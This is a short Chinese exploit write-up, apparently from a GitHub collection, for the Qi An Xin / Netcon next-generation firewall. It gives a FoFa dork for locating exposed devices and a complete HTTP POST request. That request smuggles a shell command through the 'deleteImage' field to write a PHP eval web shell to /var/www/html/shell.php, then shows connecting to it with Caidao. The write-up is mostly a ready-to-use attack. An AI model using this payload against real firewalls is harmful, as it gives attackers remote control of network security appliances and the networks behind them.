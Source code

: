 # 影响范围：
奇安信网康下一代防火墙
# FoFa Dork
app="网康科技-下一代防火墙"
# 漏洞复现：
登录页面：
![image](images/login.png)
使用burpsuite进行抓包，并构造如下数据包发送，在服务器端写入一句话：  
```
POST /directdata/direct/router HTTP/1.1
Host:xxx.xxx.xxx.xxx

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":[";echo '<?php @eval($_POST['pass']);?>' >/var/www/html/shell.php"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```
![image](images/burp.png)  
连接一句话：  
![image](images/caidao.png)  
![image](images/shell.png)  